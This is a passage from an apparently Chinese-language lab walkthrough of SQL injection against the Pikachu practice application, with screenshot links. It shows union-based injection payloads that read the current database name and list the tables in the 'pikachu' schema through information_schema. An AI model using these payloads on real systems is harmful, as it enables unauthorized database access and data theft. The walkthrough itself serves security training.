 
```
id=-3 union select 1,database()
```

![image-20250121081911465](../../_media/image-20250121081911465.png)



然后接下来就是常规一流程操作：

查表

```
id=-3 union select 1,group_concat(table_name) from information_schema.tables where table_schema='pikachu'
```

![image-20250121082117066](../../_media/image-20250121082117066.png)

